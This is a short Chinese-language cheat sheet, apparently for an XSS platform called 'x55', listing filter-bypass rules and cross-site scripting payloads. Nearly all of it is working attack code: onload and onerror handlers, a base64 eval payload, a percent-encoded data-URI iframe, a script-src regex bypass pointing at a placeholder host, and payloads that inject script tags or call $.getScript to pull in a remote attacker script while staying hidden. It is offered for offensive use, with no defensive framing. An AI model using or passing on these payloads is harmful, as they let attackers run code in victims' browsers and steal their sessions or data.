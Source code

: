 # x55-bypass

---

## 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
```



## 常用：

```
<BODY/ONLOAD=$.getScript("js地址")>
```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
```



### 网站含jq可用该函数

```
<img/src=# style=display:none onerror=$.getScript("js地址")>
```




### 短，无script标签

```
<BODY/ONLOAD=alert('123')>   
<SVG/ONLOAD=alert('123')>
```



### base64

```
<img style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
YWxlcnQoJzEyMycp => alert('123')
```



### data:text/html  # 目前只能测试能在iframe上使用

```
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E -> <script>alert(1)</script>
```



### 绕过<script src>的正则

```
<SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```



### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
<img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



可用：（不看伪装效果，动静较大）

```
<IFRAME SRC=# onmouseover=$.getScript("js地址")></IFRAME>  
<input/onmouseover=$.getScript("js地址")>
```

